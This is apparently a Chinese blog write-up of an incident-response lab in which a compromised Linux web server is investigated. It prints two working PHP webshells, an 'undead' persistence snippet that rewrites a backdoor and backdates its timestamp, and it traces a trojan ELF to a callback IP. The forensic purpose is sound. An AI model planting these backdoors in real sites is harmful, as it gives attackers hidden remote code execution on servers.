 # 第一章-应急响应-Linux入侵排查

  
  
&lt;!--more--&gt;  
1.web目录存在木马，请找到木马的密码提交  
2.服务器疑似存在不死马，请找到不死马的密码提交  
3.不死马是通过哪个文件生成的，请提交文件名  
4.黑客留下了木马文件，请找出黑客的服务器ip提交  
5.黑客留下了木马文件，请找出黑客服务器开启的监端口提交  
在`/var/www/html`目录下面，发现可疑文件`1.php .shell.php`  
```php  
#1.php  
&lt;?php eval($_POST[1]);?&gt;  
  
#.shell.php  
&lt;?php if(md5($_POST[&#34;pass&#34;])==&#34;5d41402abc4b2a76b9719d911017c592&#34;){@eval($_POST[cmd]);}?&gt;  
```  
解密之后，得`hello`  
在`index.php`发现不死马  
```php  
$file = &#39;/var/www/html/.shell.php&#39;;  
$code = &#39;&lt;?php if(md5($_POST[&#34;pass&#34;])==&#34;5d41402abc4b2a76b9719d911017c592&#34;){@eval($_POST[cmd]);}?&gt;&#39;;  
file_put_contents($file, $code);  
system(&#39;touch -m -d &#34;2021-01-01 00:00:01&#34; .shell.php&#39;);  
usleep(3000);  
```  
存在`shell(1).elf`文件，判断为木马文件，放入到微步进行分析，得到ip 10.11.55.21  
执行`shell(1).elf`，查看去连接了远程ip的哪个端口  
`netstat -antlp| grep 10.11.55.21`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202403151328799.png)

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E7%AC%AC%E4%B8%80%E7%AB%A0-%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94-linux%E5%85%A5%E4%BE%B5%E6%8E%92%E6%9F%A5/  

